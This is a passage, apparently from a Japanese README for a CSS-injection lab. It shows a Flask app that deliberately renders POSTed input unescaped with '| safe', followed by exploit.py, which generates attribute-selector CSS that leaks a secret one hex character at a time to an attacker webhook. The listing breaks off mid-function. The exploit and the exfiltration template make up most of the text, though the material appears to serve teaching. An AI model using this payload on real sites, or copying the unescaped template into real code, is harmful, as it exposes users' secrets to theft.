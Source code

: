 ```html
</div>

<h1>Not Escaped</h1>
<div style="border: 1px solid black;">
    {{ data | safe }}
</div>
</div>
...
```

Webアプリケーションは`0.0.0.0:8080`で起動します．  
POSTが行われた際には，その入力値をテンプレートにバインドします．
```python
from flask import Flask, request, render_template

app: Flask = Flask(__name__)

@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "GET":
        return render_template("index.html", data="POST data is displayed here.")
    
    if request.method == "POST":
        return render_template("index.html", data=request.form.get("data"))

app.run(host="0.0.0.0", port=8080)
```

### 攻撃用CSS生成スクリプト(/classic/attacker/exploit.py)
既知の機密情報(`known_secret`)をもとに，その次の文字(`try_secret`)をリークさせるような攻撃用CSSを生成します．  
CSSiに脆弱なWebアプリケーションに対して，生成された攻撃用CSSをターゲットが入力することで機密情報のリークが行われます．  
  
以下のようにして実行します．
```sh
python exploit.py <known_secret>
```

```python
import sys
import pyperclip

WEBHOOK: str = "http://0.0.0.0:8081"

def generate_attack_vector(known_secret: str) -> str:
    attack_vector_tmpl: str = """
        input[value^='{known_secret}{try_secret}']{{
            background: url('{webhook}?secret={known_secret}{try_secret}')
        }}"""

    attack_vector: str = ""

    for secret_param in "0123456789abcdef":
        attack_vector += attack_vector_tmpl.format(webhook=WEBHOOK,
                                                   known_secret=known_secret,
                                                   try_secret=secret_param)

    attack_vector = "<style>" + attack_vector + "</style>"

    pyperclip.copy(attack_vector)

    return attack_vector


def main() -> None:
    known_secret: str = sys.argv[1] if len(sys.argv) != 1 else ""
```